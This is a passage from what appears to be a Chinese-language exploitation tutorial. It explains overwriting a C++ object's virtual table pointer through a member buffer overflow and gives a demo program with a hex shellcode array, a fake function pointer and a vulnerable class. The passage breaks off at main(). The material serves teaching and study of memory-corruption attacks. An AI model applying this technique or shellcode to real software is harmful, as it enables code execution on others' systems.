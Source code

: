 虚函数的实现如图：

<img src="images/05/虚函数的实现.png" width="480">

如果对象中的成员变量发生了溢出，有机会修改对象中的虚表指针或修改虚表中的虚函数指针，那么在程序调用虚函数时就会跑去执行 shellcode。

下面这段程序用于演示这种漏洞利用方式。

```c++
#include "windows.h"
#include "iostream.h"
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x1C\x88\x40\x00";//set fake virtual function pointer

class Failwest
{
	public:
		char buf[200];
		virtual void test(void)
		{
			cout<<"Class Vtable::test()"<<endl;
		}
};

Failwest overflow, *p;
void main(void)
```